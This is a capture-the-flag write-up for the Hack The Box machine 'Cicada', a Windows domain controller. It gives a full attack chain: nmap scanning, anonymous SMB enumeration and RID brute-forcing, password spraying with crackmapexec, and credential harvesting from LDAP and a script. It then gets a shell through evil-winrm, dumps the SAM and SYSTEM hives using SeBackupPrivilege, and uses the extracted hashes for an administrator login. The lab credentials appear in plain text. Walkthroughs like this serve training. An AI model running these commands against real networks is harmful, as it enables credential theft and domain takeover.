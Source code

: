 # Cicada

<figure><img src="../../.gitbook/assets/image (891).png" alt=""><figcaption></figcaption></figure>

## Enumeration

```bash
nmap -v -A -O -p- -T4 -Pn -sC permx.htb -oN nmap
```

```bash
Nmap scan report for cicada.htb (10.10.11.35)
Host is up (0.049s latency).
Not shown: 65522 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-12-11 22:22:16Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Issuer: commonName=CICADA-DC-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-08-22T20:24:16
| Not valid after:  2025-08-22T20:24:16
| MD5:   9ec5:1a23:40ef:b5b8:3d2c:39d8:447d:db65
|_SHA-1: 2c93:6d7b:cfd8:11b9:9f71:1a5a:155d:88d3:4a52:157a
|_ssl-date: TLS randomness does not represent time
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Issuer: commonName=CICADA-DC-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-08-22T20:24:16
| Not valid after:  2025-08-22T20:24:16
| MD5:   9ec5:1a23:40ef:b5b8:3d2c:39d8:447d:db65
|_SHA-1: 2c93:6d7b:cfd8:11b9:9f71:1a5a:155d:88d3:4a52:157a
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Issuer: commonName=CICADA-DC-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-08-22T20:24:16
| Not valid after:  2025-08-22T20:24:16
| MD5:   9ec5:1a23:40ef:b5b8:3d2c:39d8:447d:db65
|_SHA-1: 2c93:6d7b:cfd8:11b9:9f71:1a5a:155d:88d3:4a52:157a
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Issuer: commonName=CICADA-DC-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-08-22T20:24:16
| Not valid after:  2025-08-22T20:24:16
| MD5:   9ec5:1a23:40ef:b5b8:3d2c:39d8:447d:db65
|_SHA-1: 2c93:6d7b:cfd8:11b9:9f71:1a5a:155d:88d3:4a52:157a
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
60294/tcp open  msrpc         Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2022 (88%)
Aggressive OS guesses: Microsoft Windows Server 2022 (88%)
No exact OS matches for host (test conditions non-ideal).
Uptime guess: 0.025 days (since Wed Dec 11 09:47:57 2024)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=262 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: Host: CICADA-DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-12-11T22:23:14
|_  start_date: N/A
|_clock-skew: 6h59m57s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

TRACEROUTE (using port 53/tcp)
HOP RTT      ADDRESS
1   48.32 ms 10.10.14.1
2   48.88 ms cicada.htb (10.10.11.35)

```

### Port 445 - SMB

Connecting to a SMB share using anonymous user we will find 2 interesting shares:

```bash
smbclient -U '' -L \\\\<IP> 
```

<figure><img src="../../.gitbook/assets/image (892).png" alt=""><figcaption></figcaption></figure>

Share DEV unfortunately is not readable, but we see that HR and IPC$ are readable:

```bash
sudo crackmapexec smb 10.10.11.35 -u 'guest' -p '' --shares
```

<figure><img src="../../.gitbook/assets/image (894).png" alt=""><figcaption></figcaption></figure>

&#x20;so we can try to RID Cycling attack the SMB protocol using "guest" account:

```bash
crackmapexec smb cicada.htb -u guest -p "" --rid-brute
```

<figure><img src="../../.gitbook/assets/image (893).png" alt=""><figcaption></figcaption></figure>

And we will obtain users valid list:

```
john.smoulder
sarah.dantelia
michael.wrightson
david.orelious
emily.oscars
```

## Foothold (michael.wrightson)

We can try to access the readable HR share using "guest" account:

<figure><img src="../../.gitbook/assets/image (895).png" alt=""><figcaption></figcaption></figure>

And we will finally obtain a foothold, a valid password for new hire user:\
`Cicada$M6Corpb*@Lp#nZp!8`

Let's see if there are any new employees among those drawn through RID Cycling attack using a Spray Password attack against SMB share with CrackMapExec:

{% code overflow="wrap" %}
```bash
crackmapexec smb -u users.txt -p 'Cicada$M6Corpb*@Lp#nZp!8' --continue-on-success cicada.htb
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>

`cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8`

## Privilege Escalation (david.orelious)

With these pair vaild credentials we can enumerate more infos about domain using LDAP protocol:

{% code overflow="wrap" %}
```
ldapdomaindump -u 'cicada.htb\michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8' ldap://cicada.htb
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

`cicada.htb\david.orelious:aRt$Lp#7t*VQ!3`

## Privilege Escalation (emily.oscars)

The DEV share is accessible and readable by `david.orelious` user. Inside it we will find a `Backup_script.ps1` Powershell script containing another pair of credentials:

<figure><img src="../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

```
cicada.htb\emily.oscars:Q!3@Lp#M6b*7t*Vt
```

Trying to connect using Win-RM we will obtain a shell on Domain Controller and get the user flag:

```bash
evil-winrm -i cicada.htb -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt'
```

<figure><img src="../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation (Administrator)

Inside Documents directory there is a Powershell Script:

<figure><img src="../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

When we run the **`whoami /priv`** command we see that the Emily user has **`SeBackupPrivileges`** that we can use to escalate privileges.

<figure><img src="../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

This privilege allows the user to read all the files in the system, we will use this to our advantage. We can use this to copy the SAM and SYSTEM file from Windows using the commands:

```powershell
reg save hklm\sam c:\Temp\sam
```

```powershell
reg save hklm\system c:\Temp\system
```



<figure><img src="../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

then send this to our attack device using the Evil-WinRM download command, we transfer the file from the Temp directory on the target machine to our Kali Linux Machine:

<figure><img src="../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

and use secretsdump or pypykatz to extract the hive secrets from the SAM and SYSTEM file.

```bash
pypykatz registry --sam sam system
```

<figure><img src="../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

Finally use evil-winrm with Hash parameter of Administrator to login on DC and obtain root flag :tada:

<figure><img src="../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>



